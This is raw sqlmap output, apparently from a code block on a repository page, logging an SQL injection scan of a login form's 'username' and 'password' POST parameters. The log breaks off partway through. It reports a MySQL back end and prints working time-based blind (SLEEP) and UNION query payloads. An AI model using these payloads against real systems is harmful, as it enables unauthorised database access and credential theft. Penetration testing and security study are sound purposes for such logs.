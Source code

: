 ```bash
[13:12:46] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[13:12:46] [INFO] testing for SQL injection on POST parameter 'username'
[13:12:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:12:47] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:12:47] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:12:48] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:12:48] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[13:12:49] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[13:12:49] [INFO] testing 'Generic inline queries'
[13:12:49] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[13:12:50] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[13:12:50] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:12:51] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:13:01] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[13:13:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:13:04] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:13:04] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:13:05] [INFO] target URL appears to have 4 columns in query
[13:13:05] [INFO] POST parameter 'username' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[13:13:06] [INFO] testing if POST parameter 'password' is dynamic
[13:13:06] [WARNING] POST parameter 'password' does not appear to be dynamic
[13:13:06] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[13:13:06] [INFO] testing for SQL injection on POST parameter 'password'
[13:13:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:13:07] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:13:08] [INFO] testing 'Generic inline queries'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] y
[13:13:08] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[13:13:13] [INFO] target URL appears to be UNION injectable with 4 columns
[13:13:13] [INFO] POST parameter 'password' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[13:13:13] [INFO] checking if the injection point on POST parameter 'password' is a false positive
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 126 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=''' AND (SELECT 6800 FROM (SELECT(SLEEP(5)))jmAr) AND 'uRqQ'='uRqQ&password=''

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: username=''' UNION ALL SELECT NULL,CONCAT(0x7176707171,0x574c466476625546556e614652616a7063726e784979524f6759797a4d57764461754f4a4a557765,0x71626a6271),NULL,NULL-- -&password=''

Parameter: password (POST)
    Type: UNION query
```